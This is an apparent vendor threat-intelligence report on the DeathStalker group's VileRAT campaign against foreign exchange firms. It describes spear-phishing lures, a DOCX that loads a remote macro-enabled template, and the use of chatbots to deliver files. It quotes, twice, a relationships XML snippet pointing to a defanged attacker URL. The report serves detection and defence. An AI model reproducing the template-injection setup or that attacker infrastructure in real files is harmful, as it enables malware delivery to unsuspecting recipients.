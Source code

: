 DeathStalker has indeed continuously leveraged and updated its VileRAT toolchain against the same type of targets since we first identified it in June 2020. While we comprehensively documented the evolution to our threat intelligence customers recently, and despite existing public indicators of compromise, we regret to note that the campaign is not only ongoing at the time of writing, but also that DeathStalker likely increased its efforts to compromise targets using this toolchain recently. We have indeed been able to identify more samples of VileRAT-associated malicious files and new infrastructure since March 2022, which may be a symptom of an increase in compromise attempts. We deemed it may be helpful to publicly expose some of our knowledge about VileRAT, to help potential targets better detect and stop such malicious activities.
VileRAT’s initial infection and toolset overview
Back in the summer of 2020, DeathStalker’s VileRAT initial infection consisted in spear-phishing emails sent to foreign exchange companies, from fake personas (a fake diamonds trading company for instance) who shared investment interests. Should the target reply and continue with the conversation, the fake persona would at some point and upon request provide a link to a malicious file hosted on Google Drive (a Windows shortcut file masquerading as a PDF or in a ZIP archive), as identification documents. The malicious link would then trigger the execution of arbitrary system commands, to drop a harmless decoy document, as well as a malicious and quite sophisticated binary loader that we dubbed VileLoader.
More recently, since at least late 2021, the infection technique has changed slightly, but the initial infection vector is still a malicious message: a Word document (DOCX, see Figure 1) is sent to targets via email (either as an attachment or embedded in the email body whenever possible). In July 2022, we also noticed that the attackers leveraged chatbots that are embedded in targeted companies’ public websites to send malicious DOCX to their targets.

Figure 1. Malicious DOCX social engineering message
The DOCX documents are frequently named using the “compliance” or “complaint” keywords (as well as the name of the targeted company), suggesting the attacker is answering an identification request or expressing an issue as a reason to send them.
The initial infection and toolset deployment, as we observed them starting in at least late 2021, are schematized below (see Figure 2).

Figure 2. VileRAT infection and toolset overview
A bit of stomping and concealment up to VileDropper
The initial DOCX infection document itself is innocuous, but it contains a link to another malicious and macro-enabled DOTM document as a “remote template” (see Figure 3). These DOTM files are automatically downloaded by Word when the DOCX is opened, and its embedded macro is triggered if the recipient enabled execution (as requested by the social engineering message, see Figure 1).





<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
    <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="hxxp://plantgrn[.]com/HjSYaquyA5umRSZcy%2B0xLfaIdgf5Qq8BA6EggZELrzkAAADvNjKmxl00LiQYCUFp2DSHYB8NW18l94y4JmYJq84iAcUK4DiouvcYORosLa5BzVcmWShg6Y6sjwg%3D" TargetMode="External"/>
</Relationships>




1234

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">    <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="hxxp://plantgrn[.]com/HjSYaquyA5umRSZcy%2B0xLfaIdgf5Qq8BA6EggZELrzkAAADvNjKmxl00LiQYCUFp2DSHYB8NW18l94y4JmYJq84iAcUK4DiouvcYORosLa5BzVcmWShg6Y6sjwg%3D" TargetMode="External"/></Relationships>
